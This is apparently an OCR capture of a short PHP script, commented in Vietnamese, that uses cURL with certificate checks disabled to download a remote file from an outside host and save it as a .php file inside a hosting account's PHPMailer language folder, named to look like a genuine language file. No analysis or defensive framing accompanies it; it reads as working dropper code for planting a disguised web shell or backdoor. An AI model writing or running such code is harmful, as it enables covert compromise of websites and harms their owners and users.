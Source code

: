 // URL của file cần tải
$url = "https://dogebreedlist.info/app/report.txt";

// Đường dẫn lưu file
$savePath = "/home/cambodiaearrival/public_html/PHPMailer/language/phpmailer.lang-vn.php";

// Khởi tạo cURL session
$ch = curl_init($url);

// Mở file để ghi
$file = fopen($savePath, "w");

if ($file === false) {
    die("Không thể mở file để ghi.");
}

// Cấu hình cURL để ghi dữ liệu trực tiếp vào file
curl_setopt($ch, CURLOPT_FILE, $file);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

// Thực hiện tải file
$result = curl_exec($ch);

// Kiểm tra lỗi
if ($result === false) {
    echo "Lỗi cURL: " . curl_error($ch);
} else {
    echo "Tải file thành công!";
}

// Đóng cURL và file
curl_close($ch);
fclose($file);
?>
